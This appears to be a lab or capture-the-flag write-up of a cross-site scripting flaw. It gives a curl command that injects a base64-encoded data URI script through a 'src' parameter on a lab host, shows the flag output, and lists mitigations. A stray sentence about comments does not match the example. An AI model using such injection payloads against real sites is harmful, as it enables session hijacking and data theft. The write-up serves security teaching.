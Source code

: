 ## CROSS SITE SCRIPTING

Cross-site Scripting (XSS) is another common security vulnerability in web applications. It occurs when an application includes untrusted data in a web page without proper validation or escaping, allowing an attacker to execute malicious scripts in the browser of an unsuspecting user. This can lead to a variety of harmful outcomes, including session hijacking, personal data theft, and manipulation of web content. 


## Explanation

This example demonstrates a more complex form of Cross-site Scripting (XSS), particularly exploiting data URI schemes along with base64 encoding to execute JavaScript code via a URL. This example also involves using curl to make an HTTP request.

```
curl -X GET "http://10.12.181.103/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk7PC9zY3JpcHQ+" | grep flag 
```
Target URL: http://10.12.181.103/?page=media&src=...
Parameter Exploited: src
Payload: data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk7PC9zY3JpcHQ+
This is a base64-encoded string representing the HTML and JavaScript code: <script>alert('XSS');</script>.

```
Which results into getting the flag:

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2127    0  2127    0     0   398k      0 --:--:-- --:--:-- --:--:--  519k
<center><h2 style="margin-top:50px;"> The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center><table style="margin-top:-68px;"></table>
```
and the application directly incorporates this into its HTML output without sanitization, the script will execute in the browser of any user who views that comment.


## XSS  Details

XThis attack leverages a DOM-based XSS vulnerability:

Data URI with Base64 Encoding: The attacker uses a data URI (data:text/html;base64,) followed by base64-encoded data to inject a script directly into the page. This method allows the attacker to embed complete HTML/JavaScript content in a URL.
No Validation/Sanitization: The application does not validate or sanitize the src parameter, allowing it to be used to inject arbitrary content into the web page.


## Prevention and Mitigation Strategies


Sanitize and Validate Input: Always sanitize and validate all inputs, especially those that can influence HTML content or JavaScript execution. This includes parameters like src that might accept URLs or data URIs.
Content Security Policy (CSP): Implement a strict CSP to prevent the execution of inline scripts and restrict resources to trusted domains. This would block malicious data URIs.
Use HTTP Headers: Set HTTP headers such as X-Content-Type-Options: nosniff and X-XSS-Protection: 1; mode=block to help prevent XSS attacks.
Regular Audits and Testing: Regularly audit your code for XSS vulnerabilities and conduct penetration testing to ensure that mitigation strategies are effective.